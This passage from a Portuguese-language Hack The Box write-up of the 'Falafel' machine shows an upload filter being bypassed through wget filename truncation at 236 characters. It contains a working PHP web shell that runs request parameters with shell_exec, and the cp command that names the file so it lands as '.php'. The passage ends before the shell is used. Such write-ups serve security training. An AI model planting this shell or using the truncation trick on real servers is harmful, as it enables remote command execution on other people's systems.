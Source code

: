 Pela resposta, sabemso que foi enviado com successo, e que o nome foi alterado, tendo como fim o h7Ah.´

```bash
msf-pattern_offset -q h7Ah
#>  [*] Exact match at offset 232
```

Este "Exact match at offset 232" é feito para bufferoverflow, que normalmente seria o ponto que ficaria no ESP, sendo que não é bem esse o ponto certo. O ponto certo é 236 caracteres, mas como ainda temos de adicionar 4 caracteres para o ".png", até que dá jeito este erro lol.

Cração de um ficheiro malicioso:

```php
<?php
    echo "\nURL Shell... url?cmd=<command>\n\n";
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Resumindo:

-   O ficheiro tem obrigatoriamente que terminar por ".png"
-   O servidor apache interpreta código php
-   O wget da página de upload corta os nomes muito grandes a partir do caractere 236.

Posto isso, se renomearmos o nosso ficheiro malicioso por um arquivo com (232 carateres + .php + .png), o nome do arquivo irá ser cortado a partir do 236º caracter e ficará assim: (232 chars + .php)

```bash
cp shell.php $(msf-pattern_create -l 232).php.png
# Agora que temos o número exato de caracteres, poderíamos ter chamado o ficheiro com 232 "A"... mas na altura não me lembrei e o nome está um pouco agressivo para os olhos!
```

Resultado:

> http://10.10.14.17/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png

![uploaded web shell](Assets/HTB-Linux-Hard-Falafel/good_upload.png)

Note the path of the file and go to the webshell Ok, conseguimos enviar um arquivo, que aparentemente agora está na máquina alvo com a extensão .php. E onde está? Bem, no resultado o comando wget, vemos que antes de fazer o download do arquivo, fez um cd para uma pasta. E sabemos ainda que existe uma rota uploads... Ao juntar tudo, podemos tentar ir para a seguinte url(no meu caso):
